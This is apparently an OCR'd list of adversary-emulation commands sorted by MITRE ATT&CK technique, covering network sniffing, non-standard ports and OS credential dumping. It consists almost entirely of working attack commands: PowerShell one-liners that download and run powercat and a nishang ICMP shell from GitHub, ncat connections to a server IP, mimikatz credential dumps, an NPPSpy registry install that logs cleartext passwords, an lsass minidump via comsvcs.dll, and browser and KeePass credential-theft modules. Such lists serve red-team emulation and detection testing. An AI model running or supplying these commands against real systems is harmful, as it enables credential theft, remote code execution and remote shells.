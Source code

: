 * python/collection/linux/sniffer
* python/collection/osx/sniffer
* tshark -c 5 -i #{interface}
* tcpdump -c 5 -nnni #{interface}
##T1095: Non-Application Layer Protocol
* IEX (New-Object System.Net.Webclient).Downloadstring('https://raw.githubusercontent.com/besimorhino/powercat/ff755efeb2abc3f02fa0640cd01b87c4a59d6bb5/powercat.ps1')
powercat -c 127.0.0.1 -p #{server_port}
* cmd /c #{ncat_exe} 127.0.0.1 #{server_port}
* cmd /c #{ncat_exe} #{server_ip} #{server_port}
* cmd /c $env:TEMP\T1095\nmap-7.80\ncat.exe #{server_ip} #{server_port}
* IEX (New-Object System.Net.WebClient).Downloadstring('https://raw.githubusercontent.com/samratashok/nishang/c75da7f91fcc356f846e09eab0cfd7f296ebf746/Shells/Invoke-PowerShellIcmp.ps1')
Invoke-PowerShellIcmp -IPAddress 127.0.0.1
##T1571: Non-Standard Port
* Test-NetConnection -ComputerName #{domain} -port 8081
* telnet #{domain} 8081
* Test-NetConnection -ComputerName google.com -port #{port}
* telnet google.com #{port}
##T1003: OS Credential Dumping
* hashdump
mimikatz !lsadump::sam
* logonpasswords
mimikatz !sekurlsa::logonpasswords
mimikatz !sekurlsa::msv
mimikatz !sekurlsa::kerberos
mimikatz !sekurlsa::wdigest
* use mimikatz
wdigest
msv
kerberos
logonpasswords
* #{gsecdump_exe} -a
* Copy-Item "$env:Temp\NPPSPY.dll" -Destination "C:\Windows\System32"
$path = Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\NetworkProvider\Order" -Name PROVIDERORDER
$UpdatedValue = $Path.PROVIDERORDER + ",NPPSpy"
Set-ItemProperty -Path $Path.PSPath -Name "PROVIDERORDER" -Value $UpdatedValue
$rv = New-Item -Path HKLM:\SYSTEM\CurrentControlSet\Services\NPPSpy -ErrorAction Ignore
$rv = New-Item -Path HKLM:\SYSTEM\CurrentControlSet\Services\NPPSpy\NetworkProvider -ErrorAction Ignore
$rv = New-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\NPPSpy\NetworkProvider -Name "Class" -Value 2 -ErrorAction Ignore
$rv = New-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\NPPSpy\NetworkProvider -Name "Name" -Value NPPSpy -ErrorAction Ignore
$rv = New-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\NPPSpy\NetworkProvider -Name "ProviderPath" -PropertyType ExpandString -Value "%SystemRoot%\System32\NPPSPY.dll" -ErrorAction Ignore
echo "[!] Please, logout and log back in. Cleartext password for this account is going to be located in C:\NPPSpy.txt"
* $ps = (Get-NetTCPConnection -LocalPort 3389 -State Established -ErrorAction Ignore)
if($ps){$id = $ps[0].OwningProcess} else {$id = (Get-Process svchost)[0].Id }
C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump $id $env:TEMP\svchost-exe.dmp full
* .\totallylegit.exe #{host.process.id} C:\Users\Public\creds.dmp
* ntdsutil.exe
* HKLM\SAM|HKLM\Security\\Windows\\.+\\lsass.exe
* \\Windows\\.+\\bcryptprimitives.dll|\\Windows\\.+\\bcrypt.dll|\\Windows\\.+\\ncrypt.dll
* powercmd.exe /c/collection/ChromeDump
* powercmd.exe /c/collection/FoxDump
* powercmd.exe /c/collection/ninjacopy
* powercmd.exe /c/collection/vaults/add_keepass_config_trigger
* powercmd.exe /c/collection/vaults/find_keepass_config
* powercmd.exe /c/collection/vaults/get_keepass_config_trigger